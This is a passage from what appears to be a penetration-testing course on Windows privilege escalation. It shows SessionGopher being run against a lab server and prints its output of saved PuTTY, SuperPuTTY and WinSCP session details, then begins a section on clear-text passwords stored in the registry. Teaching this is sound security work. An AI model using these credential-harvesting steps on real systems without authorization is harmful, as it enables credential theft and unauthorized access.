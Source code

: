 We need local admin access to retrieve stored session information for every user in `HKEY_USERS`, but it is always worth running as our current user to see if we can find any useful credentials.
```powershell-session
PS C:\htb> Import-Module .\SessionGopher.ps1
 
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
 
          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com
 
[+] Digging on WINLPE-SRV01...
WinSCP Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :
 
 
PuTTY Sessions
 
 
Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local
 

 
SuperPuTTY Sessions
 
 
Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings
```

## Clear-Text Password Storage in the Registry

Certain programs and windows configurations can result in clear-text passwords or other data being stored in the registry. While tools such as `Lazagne` and `SessionGopher` are a great way to extract credentials, as penetration testers we should also be familiar and comfortable with enumerating them manually.
